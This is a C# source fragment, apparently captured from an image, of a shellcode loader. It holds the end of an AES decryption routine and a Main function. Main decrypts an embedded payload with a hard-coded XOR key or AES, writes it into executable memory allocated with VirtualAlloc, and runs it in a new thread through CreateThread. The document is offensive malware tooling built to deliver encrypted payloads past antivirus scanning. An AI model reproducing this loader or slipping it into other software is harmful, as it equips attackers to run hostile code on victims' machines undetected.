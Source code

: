 ```

                using (MemoryStream ms = new MemoryStream())
                {
                    using (CryptoStream cs = new CryptoStream(ms, aes.CreateDecryptor(), CryptoStreamMode.Write))
                    {
                        cs.Write(encryptedMessage, 0, encryptedMessage.Length);
                    }

                    return ms.ToArray();
                }
            }
        }

        //==============================================================================
        // MAIN FUNCTION
        //==============================================================================
        static void Main()
        {
            byte[] encryptedShellcode = new byte[] { shellcode };
            string key = "tidesec";
            string cipherType = "xor";


            byte[] shellcode = null;

            //--------------------------------------------------------------
            // Decrypt the shellcode
            if (cipherType == "xor") {
                shellcode = xor(encryptedShellcode, Encoding.ASCII.GetBytes(key));
            }
            else if (cipherType == "aes") {
                shellcode = aesDecrypt(encryptedShellcode, Convert.FromBase64String(key));
            }
                        
            //--------------------------------------------------------------        	
            // Copy decrypted shellcode to memory
            UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
            Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
            IntPtr hThread = IntPtr.Zero;
            UInt32 threadId = 0;

            // Prepare data
            IntPtr pinfo = IntPtr.Zero;

            // Invoke the shellcode
            hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
            return;
        }

        private static UInt32 MEM_COMMIT = 0x1000;
        private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;

        // The usual Win32 API trio functions: VirtualAlloc, CreateThread, WaitForSingleObject
        [DllImport("kernel32")]
        private static extern UInt32 VirtualAlloc(
            UInt32 lpStartAddr,
            UInt32 size,
            UInt32 flAllocationType,
            UInt32 flProtect
        );
```